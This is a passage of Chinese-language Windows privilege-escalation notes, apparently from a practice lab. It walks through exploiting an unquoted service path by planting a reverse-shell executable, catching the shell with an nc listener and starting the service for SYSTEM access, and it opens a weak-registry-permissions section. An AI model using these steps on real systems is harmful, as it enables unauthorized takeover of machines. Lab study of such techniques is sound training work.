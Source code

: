 * 預定義的 BUILTIN 組和默認權限
https://library.netapp.com/ecmdocs/ECMP1658442/html/GUID-88D94528-23AB-434D-8B4B-5AA8732B812A.html





### accesschk 也可查看路徑使用權

```
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```



### 複製 reverse.exe 為 C:\Program Files\Unquoted Path Service\Common.exe

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```



### kali nc 監聽

```
nc -lvnp 53
```


### 啟動服務
```
net start unquotedsvc
```
獲得system 權限 shell 



## 服務漏洞 - 弱註冊表權限



* 在Windows系統上，操作系統、驅動程序、和系統安裝組件、服務會存放在註冊表中。而註冊表會通過樹類進行區分,如下圖所示，會分成四個樹類型。而我們的regsvc是在HKLM\SYSTEM\CurrentControlSet\Services



### sc 查看 regsvc 服務信息
```
sc qc regsvc
```


```
SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem


```
